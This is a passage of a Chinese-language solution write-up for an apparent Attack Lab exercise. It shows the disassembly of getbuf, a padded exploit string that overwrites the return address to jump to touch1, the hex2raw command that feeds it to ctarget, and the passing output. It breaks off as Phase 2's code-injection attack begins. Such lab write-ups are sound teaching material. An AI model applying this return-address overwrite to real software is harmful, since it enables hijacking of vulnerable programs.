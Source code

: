 ```c
void touch1()
{
    vlevel = 1; /* Part of validation protocol */
    printf("Touch1!: You called touch1()\n");
    validate(1);
    exit(0);
}
```

我们需要构造一个输入，使得 `getbuf` 函数返回后，程序的控制流跳转到 `touch1` 函数。为此，我们需要覆盖栈上的返回地址，使其指向 `touch1` 函数的地址。

我们先查看一下 `getbuf` 函数的汇编代码，了解一下函数的栈空间是如何分布的。

```x86asm
0000000000401ba7 <getbuf>:
  401ba7:	f3 0f 1e fa          	endbr64
  401bab:	48 83 ec 18          	sub    $0x18,%rsp
  401baf:	48 89 e7             	mov    %rsp,%rdi
  401bb2:	e8 57 03 00 00       	call   401f0e <Gets>
  401bb7:	b8 01 00 00 00       	mov    $0x1,%eax
  401bbc:	48 83 c4 18          	add    $0x18,%rsp
  401bc0:	c3                   	ret
```

从汇编代码中，我们可以看到 `getbuf` 函数在栈上分配了 0x18（24）字节的空间用于局部变量 `buf`。因此，我们需要输入超过 24 字节的数据来覆盖返回地址。从汇编代码中，我们还可以看到 `touch1` 函数的地址是 `0x401c33`。

于是，我们可以构造如下的输入：

```text
/* phase1.txt */
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
33 1c 40 00 00 00 00 00 /* Address of touch1() */
```

转换为原始字节序列并传递给 `ctarget` 程序：

```bash
cat phase1.txt | ./hex2raw | ./ctarget
```

```text
Cookie: 0x24c8ce66
Type string:Touch1!: You called touch1()
Valid solution for level 1 with target ctarget
PASS: Sent exploit string to server to be validated.
NICE JOB!
```

# Phase 2

在 phase 2 中，我们需要针对 `ctarget` 程序实现代码注入攻击。

```c
void test()
{
    int val;
    val = getbuf();
    printf("No exploit. Getbuf returned 0x%x\n", val);
}
```
